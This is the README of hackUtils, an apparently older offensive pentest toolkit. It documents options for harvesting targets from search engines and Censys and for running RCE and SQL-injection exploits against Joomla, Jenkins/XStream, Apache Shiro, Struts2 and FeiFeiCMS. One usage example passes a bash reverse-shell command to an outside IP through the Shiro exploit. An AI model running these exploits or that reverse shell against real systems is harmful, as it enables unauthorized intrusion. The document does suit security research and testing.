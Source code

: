 # hackUtils
It is a hack tool kit for pentest and web security research, which is based on BeautifulSoup bs4 module http://www.crummy.com/software/BeautifulSoup/bs4/. 

Usage: 

    hackUtils.py [options]

Options:

    -h, --help                                  Show basic help message and exit
    -b keyword, --baidu=keyword                 Fetch URLs from Baidu based on specific keyword
    -g keyword, --google=keyword                Fetch URLs from Google based on specific keyword
    -i keyword, --censysip=keyword              Fetch IPs from Censys based on specific keyword
    -u keyword, --censysurl=keyword             Fetch URLs from Censys based on specific keyword
    -w keyword, --wooyun=keyword                Fetch URLs from Wooyun Corps based on specific keyword
    -j url|file, --joomla=url|file              Exploit SQLi for Joomla 3.2 - 3.4
    -r url|file, --rce=url|file                 Exploit Remote Code Execution for Joomla 1.5 - 3.4.5
    -f url|file, --ffcms=url|file               Exploit Remote Code Execution for FeiFeiCMS 2.8
    -k ip|file[::cmd], --jenkins=ip|file[::cmd] Exploit Remote Code Execution for XStream (Jenkins CVE-2016-0792)
    -o url|file[::cmd], --shiro=url|file[::cmd] Exploit Remote Code Execution for Apache Shiro 1.2.4
    -s url|file, --s2032=url|file               Exploit Remote Code Execution for Struts2 (S2-032)
    -d site, --domain=site                      Scan subdomains based on specific site
    -e string, --encrypt=string                 Encrypt string based on specific encryption algorithms (e.g. base64, md5, sha1, sha256, etc.)


Examples:

    hackUtils.py -b inurl:www.example.com
    hackUtils.py -g inurl:www.example.com
    hackUtils.py -i 1099.java-rmi
    hackUtils.py -u 1099.java-rmi
    hackUtils.py -w .php?id=
    hackUtils.py -j http://www.joomla.com/
    hackUtils.py -j urls.txt
    hackUtils.py -r http://www.joomla.com/
    hackUtils.py -r urls.txt
    hackUtils.py -f http://www.feifeicms.com/
    hackUtils.py -f urls.txt
    hackUtils.py -k 10.10.10.10
    hackUtils.py -k 10.10.10.10::dir
    hackUtils.py -k ips.txt
    hackUtils.py -k ips.txt::"touch /tmp/jenkins"
    hackUtils.py -o http://www.shiro.com/::"bash -i >& /dev/tcp/172.16.8.16/8080 0>&1"
    hackUtils.py -o urls.txt::"touch /tmp/shiro"
    hackUtils.py -s http://www.struts2.com/index.action
    hackUtils.py -s urls.txt
    hackUtils.py -d example.com
    hackUtils.py -e text

Change Logs:

****2016.08.08****

    1. Add exploit module for Apache Shiro 1.2.4 Remote Code Execution

****2016.04.26****

    1. Add exploit module for Struts 2 (S2-032) Remote Code Execution

****2016.03.10****

    1. Modify exploit payload for XStream (Jenkins CVE-2016-0792) Remote Code Execution

****2016.03.02****

    1. Add exploit module for XStream (Jenkins CVE-2016-0792) Remote Code Execution

****2016.02.29****

    1. Add Censys URLs fetching module

****2016.02.24****

    1. Add Censys IPs fetching module
    2. Add exploit module for FeiFeiCMS 2.8 Remote Code Execution

****2015.12.23****

    1. Update Baidu URLs fetching module
    2. Update Wooyun URLs fetching module
    3. Update Subdomains Scan module

****2015.12.17****

    1. Modify exploit payload for Joomla 1.5 - 3.4.5 - Object Injection Remote Code Execution

****2015.12.16****

    1. Add exploit module for Joomla 1.5 - 3.4.5 - Object Injection Remote Code Execution

[!] legal disclaimer: Usage of hackUtils for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

声明：仅作学习使用，任何人不可用于非法目的，否则一切后果由其本人承担!
